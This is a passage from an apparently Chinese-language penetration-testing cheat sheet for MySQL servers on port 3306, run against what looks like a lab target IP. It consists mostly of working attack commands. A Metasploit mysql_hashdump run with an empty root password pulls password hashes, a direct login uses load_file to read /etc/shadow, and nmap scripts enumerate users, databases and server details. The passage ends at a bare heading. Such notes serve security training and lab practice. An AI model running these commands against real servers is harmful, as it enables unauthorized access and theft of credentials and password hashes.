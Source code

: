 ```
[*] 192.125.250.3:3306  - Checking /tmp...
[+] 192.125.250.3:3306  - /tmp is writeable

[*] 192.125.250.3:3306  - Checking /root...
[+] 192.125.250.3:3306  - /root is writeable
```

```
use auxiliary/scanner/mysql/mysql_hashdump
set username root
set password ""
options
exploit
exit
```

```
mysql -h 192.125.250.3 -u root

MySQL [(none)] > select load_file("/etc/shadow");
MySQL [(none)] > exit
```

[mysql-empty-password](https://nmap.org/nsedoc/scripts/mysql-empty-password.html)

使用root或anonymous的空密码检查 MySQL 服务器。

```
nmap 192.125.250.3 -sV -p 3306 --script=mysql-empty-password
```

[mysql-info](https://nmap.org/nsedoc/scripts/mysql-info.html)

连接到 MySQL 服务器并打印协议和版本号、线程 ID、状态、功能和密码 salt 等信息。

如果执行了服务检测并且服务器似乎正在阻止我们的主机或由于连接过多而被阻止，则此脚本不会运行（请参阅端口规则）。

`InteractiveClient`

```
nmap 192.125.250.3 -sV -p 3306 --script=mysql-info
```

[mysql-users](https://nmap.org/nsedoc/scripts/mysql-users.html)

尝试列出 MySQL 服务器上的所有用户。

```
nmap 192.125.250.3 -sV -p 3306 --script=mysql-users --script-args="mysqluser='root',mysqlpass=''"
```

[mysql-databases](https://nmap.org/nsedoc/scripts/mysql-databases.html)

尝试列出 MySQL 服务器上的所有数据库。

```
nmap 192.125.250.3 -sV -p 3306 --script=mysql-databases --script-args="mysqluser='root',mysqlpass=''"
```

[mysql-variables](https://nmap.org/nsedoc/scripts/mysql-variables.html)
